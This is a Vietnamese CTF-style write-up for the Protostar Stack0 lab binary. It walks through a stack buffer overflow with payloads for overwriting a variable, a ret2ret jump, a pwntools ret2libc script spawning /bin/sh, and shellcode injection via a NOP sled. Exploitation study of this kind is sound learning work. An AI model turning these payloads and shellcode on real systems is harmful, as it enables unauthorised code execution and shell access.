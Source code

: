 # Stack0

Đầu tiên ta chạy thử chương trình, chương trình yêu cầu nhập input. 

![run](run.png)

`try again?`
Vậy cùng xem thử qua hàm main.

![main](disass.png)

t thấy chương trình dùng gets để nhập input vào `[esp+0x1c]`. Sau đó so sánh `[esp+0x5c]` với 0, nếu = 0 in ra `0x8048529 (try again?)` nếu ko thì in ra `0x8048500(you have changed the 'modified' variable)`. Vì ban đầu `[esp+0x5c]` được gán giá trị = 0 nên mục đích của chall này là thay đổi giá trị cua `[esp+0x5c]` để in ra *you have changed the 'modified' variable*. Ta tính được size của `[esp+0x1c]` 0x5c - 0x1c = 64 byte. vậy cần nhập một chuỗi > 64 byte để ghi đè giá trị của `[esp+0x5c]`.

## Solution

### Buffer Overflow

`python -c 'print "a"*65 | ./stack0`

### Ret2ret

Ta có thể overflow sang EIP để jump về `0x08048419`. Mình dùng Gdb để có đc địa chỉ của ESP,EBP.

![ebp-esp](ebp-esp.png)

`padding = [ebp]-[esp+0x1c] + ebp(4byte) = 80`
payload: `python -c 'print "a"*80 + "\x19\x84\x04\x08"' | ./stack0`
![ret2ret](ret2ret.png)

## Spawn Shell

chi tiết 2 cách làm bên dưới có ở bài stack 5 và stack 6.

### return về hàm system()

thay vì để jump về `0x08048419` ta có thể return về hàm system() để spawn shell.
![shell](shell.png)

```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack0')

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = 80*b'b' #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)

p = process('./stack0')
p.sendline(payload)
p.interactive()
```

![shell2](shell2.png)

### inject code

Check qua phân vùng stack, mình thấy nó có quyền excute. Nên mình sẽ inject shellcode vào stack. Shellcode có thể tìm trên mạng, hoặc dùng shellcraft để tạo. Tạo một vùng nop byte đủ lớn, cho EIP rơi vào đâu đó giữa khoảng NOP byte.
![nopsled](nopsled.png)

```python
#!/usr/bin/python3
from pwn import *

padding = b'a'*80
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process('./stack0')
p.sendline(payload)
p.interactive()
```

![shell3](shell3.png)